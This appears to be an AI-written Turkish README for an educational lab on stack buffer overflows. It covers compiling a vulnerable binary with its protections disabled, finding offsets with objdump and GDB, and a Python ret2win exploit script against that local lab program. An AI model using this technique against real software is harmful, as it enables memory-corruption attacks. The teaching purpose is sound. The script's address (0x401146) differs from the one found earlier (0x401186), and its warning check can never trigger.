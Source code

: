 Harika bir fikir. Sağladığınız komutlar ve GDB inceleme adımını temel alarak, Stack Buffer Overflow zafiyetini derinlemesine analiz eden, önceki şablona uygun yeni bir README dosyası aşağıda oluşturulmuştur.

-----

# CyberLabs: Stack Buffer Overflow ile Akış Kontrolü Laboratuvarı

**Modül Kodu:** CL-MEM-002

**Seviye:** Orta / İleri

**Konu:** Bellek Bozulması Zafiyetleri (Memory Corruption)

## Laboratuvarın Amacı

Bu laboratuvar, CyberLabs eğitim platformu için hazırlanmış olup, klasik **Stack Buffer Overflow (Yığın Tampon Taşması)** zafiyetini ve bu zafiyetin program akışını ele geçirmek için nasıl kullanılabileceğini detaylı bir şekilde ele almaktadır. Katılımcıların bu laboratuvar sonunda aşağıdaki yetkinlikleri kazanması hedeflenmektedir:

  * Stack Buffer Overflow zafiyetinin programın geri dönüş adresini (return address) nasıl etkilediğini anlamak.
  * `g++` derleyicisi ile exploit geliştirmeyi kolaylaştıran bayrakları (`-fno-stack-protector`, `-z execstack`, `-no-pie`) kullanarak program derlemek.
  * `objdump` ile bir program üzerinde statik analiz yaparak fonksiyon adreslerini tespit etmek.
  * `gdb` (GNU Debugger) ile dinamik analiz yapmak, programı çökertmek ve yığın (stack) durumunu analiz etmek.
  * GDB içerisinde `x/32gx $rsp` gibi komutlar kullanarak yığın üzerindeki veriyi doğrudan incelemek ve sömürü için gereken ofset (offset) değerini doğrulamak.

## Disclaimer / Yasal Uyarı

The information provided in this blog post is intended for educational and informational purposes only. It is not intended to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks, or data.

Bu blog yazısında sağlanan bilgiler yalnızca eğitim ve bilgilendirme amaçlıdır. Bilgisayar korsanlığı, siber saldırılar veya bilgisayar sistemlerine, ağlara veya verilere herhangi bir şekilde yetkisiz erişim de dahil olmak üzere herhangi bir yasa dışı veya etik olmayan faaliyeti teşvik etme veya reklamlama amacı taşımaz.

Bu laboratuvar içeriği, tamamen **CyberLabs eğitim ortamı** için tasarlanmıştır. Buradaki bilgi ve kodların amacı, siber güvenlik uzmanlarının savunma mekanizmalarını daha iyi anlamalarına ve zafiyet analizi yeteneklerini geliştirmelerine yardımcı olmaktır. Bu materyallerin CyberLabs ortamı dışında veya yasa dışı amaçlarla kullanılması kesinlikle yasaktır ve tüm sorumluluk kullanıcıya aittir.

## Kurulum ve Çalıştırma Adımları

### 1\. Zafiyetli Kodu Derleme

İlk adım, C++ kaynak kodunu belirli bayraklar kullanarak derlemektir. Bu bayraklar, modern işletim sistemlerindeki bazı koruma mekanizmalarını devre dışı bırakarak zafiyeti sömürmeyi daha öngörülebilir hale getirir.

```bash
g++ -m64 -fno-stack-protector -z execstack -no-pie -o vulnerable_code vulnerable_code.cpp
```

  * `-m64`: Programı 64-bit olarak derler.
  * `-fno-stack-protector`: Yığın taşmalarını tespit etmek için kullanılan "canary" değerlerini devre dışı bırakır.
  * `-z execstack`: Yığın (stack) bölgesini çalıştırılabilir (executable) olarak işaretler. Bu, yığına shellcode enjekte edip çalıştırma senaryoları için gereklidir.
  * `-no-pie`: Konumdan Bağımsız Yürütülebilir (PIE) özelliğini kapatır. Bu sayede program ve fonksiyon adresleri her çalıştırmada sabit kalır.

### 2\. Statik Analiz: Hedef Fonksiyon Adresini Bulma

Amacımız, programın akışını normalde çağrılmayacak bir fonksiyona (örneğin `win_function`) yönlendirmektir. Bunun için `objdump` aracı ile bu fonksiyonun bellekteki adresini bulmamız gerekir.

```bash
objdump -d ./vulnerable_code | grep win_function
```

Bu komutun çıktısı size `win_function`'un başlangıç adresini verecektir. Örneğin:
`0000000000401186 <win_function>:`
Bu durumda hedef adresimiz `0x401186` olacaktır.

### 3\. Dinamik Analiz: Zafiyeti GDB ile Tetikleme

Şimdi zafiyetin varlığını ve etkisini GDB (GNU Debugger) ile canlı olarak inceleyeceğiz.

```bash
gdb vulnerable_code
```

GDB ortamı açıldıktan sonra, programı arabelleği taşıracak özel bir girdi ile çalıştırın. `A` karakteri (HEX `0x41`), bellekte kolayca tanınabildiği için dolgu (padding) amacıyla sıkça kullanılır. 72 byte'lık bir 'A' dizisi gönderelim.

```
(gdb) run <<< $(python -c 'print("A"*72)')
```

Program, geri dönüş adresinin `0x4141414141414141` gibi geçersiz bir adresle üzerine yazıldığı için "Segmentation fault" hatası vererek çökecektir. Bu, kontrolü ele geçirmeye çok yakın olduğumuzu gösterir.

### 4\. Yığını İnceleme: `x/32gx $rsp`

Çökme anında yığının (stack) durumunu görmek, sömürü kodunu yazmak için en kritik adımdır. `x/32gx $rsp` komutu, çökme anında yığın işaretçisinin (`$rsp`) gösterdiği yerden başlayarak belleği incelememizi sağlar.

  * `x`: e**x**amine (incele) komutu.
  * `/32gx`: 32 adet **g**iant word (64-bit) veriyi he**x** formatında göster.

<!-- end list -->

```
(gdb) x/32gx $rsp
```

Bu komutun çıktısı şuna benzer olacaktır:

```
0x7fffffffe318: 0x4141414141414141      0x00007ffff7a2d830
0x7fffffffe328: 0x00000000004011e9      0x0000000100000000
...
```

**Bu çıktıyı nasıl yorumlarız?**

  * `0x7fffffffe318:`: Yığındaki bellek adresi.
  * `0x4141414141414141`: Burası, tam olarak geri dönüş adresinin bulunması gereken yerdir. 72 byte'lık 'A' girdimizin son 8 byte'ı buraya denk gelmiştir. Bu, geri dönüş adresini kontrol etmek için **72 byte'lık bir dolguya (padding) ihtiyacımız olduğunu** doğrular.

### 5\. Exploit'i Geliştirme ve Çalıştırma

Artık tüm bilgilere sahibiz:

1.  **Gereken Dolgu Boyutu:** 72 byte.
2.  **Hedef Adres:** `objdump` ile bulduğumuz adres (ör: `0x401186`).

Bu bilgileri kullanarak exploit'imizi yazabiliriz. Payload'ımız `[ 72 byte 'A' ] + [ 8 byte Hedef Adres ]` şeklinde olacaktır.

```python
# exploit.py
import struct
import subprocess
import sys

# Zafiyetli programın derlenmiş adı
VICTIM_PROGRAM = "./vulnerable_code"

# --- GDB ILE BU ADRESI KENDI SISTEMINIZDE BULUN ---
# Örneğin: 0x401146
HEDEF_ADRES = 0x401146  # <-- BU SATIRI GDB'DEN ALDIĞINIZ ADRES ILE GÜNCELLEYİN

# 64-bit mimari için hesaplanan padding boyutu
PADDING_SIZE = 72

def main():
    """
    Sömürü işlemini başlatan ana fonksiyon.
    """
    print("--- [SALDIRGAN] Gelişmiş Buffer Overflow Exploit Başlatıldı ---")
    
    if HEDEF_ADRES == 0x401146 and "guncelleyin" in "GUNCELLEYIN": # Basit bir kontrol
        print("\n[!] UYARI: HEDEF_ADRES'i kendi sisteminizdeki adresle güncellemeyi unutmayın!\n")

    print(f"[*] Hedef Program: {VICTIM_PROGRAM}")
    print(f"[*] Hedef Adres: {hex(HEDEF_ADRES)}")
    print(f"[*] Padding Boyutu: {PADDING_SIZE}")
    
    # Payload'ı oluştur: [ 72 byte dolgu ('A') ] + [ 8 byte hedef adres ]
    padding = b'A' * PADDING_SIZE
    overwrite_address = struct.pack("<Q", HEDEF_ADRES)
    payload = padding + overwrite_address
    
    print(f"[*] Payload {len(payload)} byte olarak olusturuldu.")
    
    try:
        p = subprocess.Popen(
            [VICTIM_PROGRAM], 
            stdin=subprocess.PIPE, 
            stdout=subprocess.PIPE, 
            stderr=subprocess.PIPE
        )
    except FileNotFoundError:
        print(f"\n[!] HATA: '{VICTIM_PROGRAM}' bulunamadi. C++ kodunu derlediniz mi?")
        sys.exit(1)
        
    print("[*] Payload kurban programa gonderiliyor...")
    
    stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    
    print("\n--- Kurban Programdan Gelen Çıktı ---")
    print(stdout_output)
    print("------------------------------------")
    
    # Programın çıktısında belirlediğimiz başarı anahtar kelimesini arıyoruz.
    if "Zafiyet Basariyla Somuruldu" in stdout_output:
        print("\n[+] Başarılı! Zafiyet istismar edildi ve kontrol ele geçirildi!")
    else:
        print("\n[-] Başarısız. Adresi veya ofseti kontrol edin.")
        stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')
        if stderr_output:
            print("\n--- Hata Çıktısı (stderr) ---")
            print(stderr_output)


if __name__ == "__main__":
    main()
```

Exploit'i çalıştırdığınızda, programın çıktısında `win_function` içinde tanımlanmış olan başarı mesajını görmelisiniz. Bu, programın akışını başarıyla ele geçirdiğiniz anlamına gelir.
